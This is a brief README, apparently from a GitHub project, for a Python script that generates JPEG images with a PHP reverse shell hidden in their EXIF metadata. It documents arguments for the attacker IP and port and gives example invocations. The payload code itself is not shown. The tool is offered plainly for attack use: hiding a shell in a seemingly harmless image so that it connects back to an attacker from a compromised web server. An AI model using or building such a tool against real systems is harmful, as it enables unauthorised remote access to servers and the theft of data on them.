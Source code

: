 # PHP-Reverse-Shell-Image-Generato

## Generate PHP Reverse Shell Image (JPEG)

------------------------------------------------
### Required Arguments
------------------------------------------------
-i,  --image        Image File to Convert (Required)
-a,  --ipaddr       Attacker IP (Required)
------------------------------------------------
### Optional Arguments
------------------------------------------------
-p,  --port         Attacker Port [default:21]
-o,  --outfilename  Use a Different Name to Original Image
-h,  --help         Show Help
------------------------------------------------

### Syntax
------------------------------------------------------------------------------------------------------------------------------
python3 PHPReverseShell2ImageExif.py --image="image.jpeg" --ipaddr"<IP>" --port"<PORT>" --outfilename"newimage.jpg"
python3 PHPReverseShell2ImageExif.py --image="image.jpeg" --ipaddr"<IP>" --port"<PORT>"
python3 PHPReverseShell2ImageExif.py --image="image.jpeg" --ipaddr"<IP>"
------------------------------------------------------------------------------------------------------------------------------
